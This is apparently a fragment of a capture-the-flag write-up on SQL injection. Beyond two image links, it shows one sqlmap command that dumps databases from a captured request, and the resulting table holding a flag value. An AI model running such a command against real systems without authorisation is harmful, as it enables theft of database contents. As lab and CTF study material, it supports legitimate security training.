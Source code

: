 ![image.png](image%2012.png)

![image.png](image%2013.png)

`sqlmap -r sqlmapreq.txt --random-agent --dump --batch --threads 10 --dbs`

```jsx
Table: sqli_two
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {212ec3b036925a38b7167cf9f0243015} |
+----+------------------------------------+
```
